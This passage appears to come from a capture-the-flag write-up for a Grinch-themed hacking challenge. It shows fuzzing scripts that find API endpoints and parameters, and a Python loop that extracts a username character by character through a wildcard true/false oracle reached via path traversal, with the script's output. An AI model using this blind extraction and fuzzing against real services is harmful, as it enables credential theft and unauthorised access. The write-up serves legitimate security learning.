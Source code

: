 ```python
sys.argv[1] == 'endpoints' and fuzz('common-api-endpoints-mazen160.txt', avoid_code='404') # finds endpoints "ping" and "user"
sys.argv[1] == 'parameters' and fuzz('burp-parameter-names.txt', avoid_code='400', prefix='user?', suffix='=1') # finds parameters "username" and "password"
```

Most endpoints just 404, but the endpoints `user` and `ping` both return:

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 28 Dec 2020 20:49:49 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 29

Invalid content type detected
```

When you query a normal image, you get a `Content-Type` of `image/jpeg`. The header here shows that it is returning a text result and it is confused because it is an images api. This error is fine though, it shows us that even though we aren't able to see the output of this api, we know that it exists.

The last line of the program fuzzes to find the parameters of the user endpoint. Most of the wordlist returns a `400` status, but `username` and `password` both return a `204 No Content`. With some fiddling I could see that the username and password fields were search fields. Trying `username=%` would return the "Invalid content type detected" error, while trying `username=1` would return `204 No Content`. This tells us that we have a true or false response to know if a certain user is existing. Using this, we can exfiltrate the login in the same way we did for day 9. To do this, I added an extra function to the existing script:

```python
CHARS = "qwertyuiopasdfghjklzxcvbnm1234567890"

def exfiltrate(field):
    accumulator = ''
    while True:
        for char in CHARS:
            payload = PAYLOAD.replace('FUZZ', f'user?{field}={accumulator}{char}%')
            if process(payload, avoid_code='204'):
                accumulator += char 

sys.argv[1] == 'username' and exfiltrate('username')
sys.argv[1] == 'password' and exfiltrate('password')
```

Running: 
```sh
$ ./api_fuzz.py username
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=g%","auth":"e8b7a05ab04f3c1165c79d08d331169a"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gr%","auth":"9628e7ff516491d7fef561b270e6bf96"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=gri%","auth":"b72688442a598cee8ddb8b3c012b0ec4"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grin%","auth":"52bce9f7f3f8d95abed4a447545656d8"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinc%","auth":"aecf8d3c5edd3986815fb8f8bc31982f"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinch%","auth":"6f86b86d2013ab5ab58abd4d77b44506"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grincha%","auth":"fb005d3fc853a5b48927e526be4c7daf"}'
b'{"image":"r3c0n_server_4fdk59\\/uploads\\/..\\/api\\/user?username=grinchad%","auth":"2eac9d3c5e350d26c8d44cd7f4135fbd"}'
```